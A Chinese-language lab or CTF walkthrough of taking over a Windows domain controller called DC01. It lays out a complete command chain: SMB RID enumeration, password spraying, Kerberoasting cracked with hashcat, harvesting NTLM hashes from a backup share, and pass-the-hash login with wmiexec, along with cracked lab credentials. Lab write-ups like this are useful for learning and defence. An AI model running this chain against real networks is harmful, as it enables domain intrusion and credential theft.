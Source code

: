 # DC01

`rustscan`扫描

```bash
$ rustscan -a 192.168.1.112 -- -Pn -sV -sC
```

![](./img/DC01-1.png)

可以看到是一台`windows`主机，而且在域`SOUPEDECODE.LOCAL0`中，在`hosts`中添加

```
192.168.1.112 SOUPEDECODE.LOCAL0 DC01.SOUPEDECODE.LOCAL0
```

## smb枚举

开放了`139` `445`端口，尝试使用`smbmap`枚举匿名或者来宾用户

```bash
$ smbmap -u anonymous -H 192.168.1.112
```

![](./img/DC01-2.png)

可以看到`IPC$`可读，我们可以利用这个用户 进行相对标识符（RID）暴力枚举出域内的其他用户

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL0 -u 'anonymous' -p '' --rid-brute > res.txt
```

![](./img/DC01-3.png)

```bash
$ cat res.txt | grep SidTypeUser | cut -d '\' -f2 | cut -d ' ' -f1 > users.txt
$ wc -l users.txt
1069 users.txt
```

通过`rid`枚举 获取了1000多个用户名，尝试`AS-REP Roasting`失败，这些帐户都设置了`Kerberos`预身份验证所需的属性

```bash
$ impacket-GetNPUsers SOUPEDECODE.LOCAL0/ -usersfile ~/Downloads/users.txt -dc-ip 192.168.1.112
```

使用`smb`密码喷射

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL0 -u users.txt -p users.txt --no-bruteforce
```

![](./img/DC01-4.png)

找到了`smb`用户名密码

```
ybob317:ybob317
```

## 枚举Kerberos SPN

利用impacket-GetUserSPNs 枚举用户的服务帐户信息，然后使用这些 SPN 获取 Kerberos 服务票证（TGT），借助TGT我们可以向TGS请求获取TGS 并访问对应的服务

在枚举这些账户之前，我们需要先将攻击机的时间与域控的时间同步，不然会连接失败

```bash
# timedatectl set-ntp off
# rdate -n 192.168.1.112
# python3 GetUserSPNs.py SOUPEDECODE.LOCAL/ybob317 -dc-ip 192.168.1.112 -usersfile ~/Downloads/users.txt -request -outputfile spn-users.tgs
```

![](./img/DC01-5.png)

## hashcat

利用`hashcat`进行爆破

```bash
$ hashcat -a 0 -m 13100 spn-users.tgs ~/Desktop/secs/tools/dict/rockyou.txt
```

![](./img/DC01-6.png)

```
file_svc:Password123!!
```

## smb连接

看一下共享

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL0 -u "file_svc" -p 'Password123!!' --shares
```

![](./img/DC01-7.png)

看到一个`backup`，连接上去查看一下

```bash
$ smbclient //192.168.1.112/backup -U file_svc
Password for [MYGROUP\file_svc]: backup
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jun 18 01:41:17 2024
  ..                                 DR        0  Tue Jun 18 01:44:56 2024
  backup_extract.txt                  A      892  Mon Jun 17 16:41:05 2024

		12942591 blocks of size 4096. 10831341 blocks available
smb: \> get backup_extract.txt
getting file \backup_extract.txt of size 892 as backup_extract.txt (10.4 KiloBytes/sec) (average 10.4 KiloBytes/sec)
```

![](./img/DC01-8.png)

获取到了一些目标服务账户的NTLM密码哈希值，利用这些hash搭配前面的用户名单进行枚举，检查是否出现任何重复使用的密码

```bash
$ cat backup_extract.txt| cut -d ":" -f1 > names.txt
$ cat backup_extract.txt| cut -d ":" -f4 > hashes.txt
```

然后爆破

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL0 -u names.txt -H hashes.txt
```

![](./img/DC01-9.png)

连接

```bash
$ python3 wmiexec.py -hashes :e41da7e79a4c76dbd9cf79d1cb325559 SOUPEDECODE.LOCAL0/'FileServer$'@192.168.1.112 -codec gbk
```

![](./img/DC01-10.png)

可以看到已经具有管理员权限，直接拿`flag`即可，都在用户家目录的`Desktop`下

